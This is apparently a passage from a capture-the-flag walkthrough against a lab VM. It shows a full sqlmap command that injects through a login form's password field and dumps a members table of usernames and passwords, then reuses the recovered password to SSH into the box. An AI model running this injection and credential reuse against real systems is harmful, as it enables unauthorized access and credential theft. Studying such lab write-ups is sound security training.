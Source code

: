 Note the use of the --dump argument for data retrieval and -D argument to specify which database.

```bash
root@kali:~/Desktop/k4# sqlmap -u "http://10.0.2.14/checklogin.php" \
  --data "myusername=admin&mypassword=test&Submit=Login" \
  --method POST -p "mypassword" --dump -D members
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

...
[17:01:29] [INFO] fetching tables for database: 'members'
[17:01:29] [INFO] fetching number of tables for database 'members'
[17:01:29] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[17:01:29] [INFO] retrieved: 
sqlmap got a 302 redirect to 'http://10.0.2.14:80/login_success.php?username=admin'. Do you want to follow? [Y/n] n
1
...
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+

[17:01:35] [INFO] table 'members.members' dumped to CSV file '/root/.sqlmap/output/10.0.2.14/dump/members/members.csv'
[17:01:35] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.0.2.14'

[*] ending @ 17:01:35 /2019-02-02/
```

SQLMap is always fun to use. With this command, it will typewrite what it finds. I cut out that part, because the table output at the bottom is more human-readable.

Either way, we have a couple usernames and passwords. One of them appears to be Base64 encoded (note the '=='). It doesn't decode to anything readable, so it could likely be a red herring.

If you get credentials for anything, it never hurts to try them over SSH. If you recall from all the way back when we ran Nmap, SSH is running on port 22.

## SSH! Quiet!

```bash
root@kali:~/Desktop/k4# ssh john@10.0.2.14
The authenticity of host '10.0.2.14 (10.0.2.14)' can't be established.
RSA key fingerprint is SHA256:3fqlLtTAindnY7CGwxoXJ9M2rQF6nn35SFMTVv56lww.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.2.14' (RSA) to the list of known hosts.
john@10.0.2.14's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
```
